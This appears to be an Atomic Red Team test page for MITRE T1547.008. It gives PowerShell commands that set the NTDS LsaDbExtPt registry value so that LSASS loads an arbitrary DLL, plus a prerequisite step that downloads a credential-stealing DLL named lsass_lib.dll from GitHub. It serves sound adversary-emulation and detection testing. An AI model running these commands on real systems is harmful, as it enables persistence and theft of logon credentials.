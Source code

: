 ```yaml
---
tags: [T1547_008, atomic_test]
filename: "[[T1547.008 - Boot or Logon Autostart Execution- LSASS Driver]]"
---
```

# T1547.008 - Boot or Logon Autostart Execution: LSASS Driver

## Atomic Test #1 - Modify Registry to load Arbitrary DLL into LSASS - LsaDbExtPt
The following Atomic will modify an undocumented registry key that may be abused to load a arbitrary DLL into LSASS. 

Upon execution, the registry key will be modified and a value will contain the path to the DLL. 
Reference: https://blog.xpnsec.com/exploring-mimikatz-part-1/ and source https://github.com/oxfemale/LogonCredentialsSteal
Note that if any LSA based protection is enabled, this will most likely not be successful with LSASS.exe loading the DLL.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ecef16d-d289-46b4-917b-0dba6dc81cf1





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| dll_path | Module to be loaded into LSASS | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;lsass_lib.dll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\NTDS -Name LsaDbExtPt -Value "#{dll_path}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\NTDS" -Name "LsaDbExtPt" -ErrorAction Ignore | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: lsass_lib.dll must exist on disk at specified location (#{dll_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dll_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/oxfemale/LogonCredentialsSteal/raw/53e74251f397ddeab2bd1348c3ff26d702cfd836/lsass_lib/x64/Release/lsass_lib.dll" -UseBasicParsing -OutFile "#{dll_path}"
```




<br/>
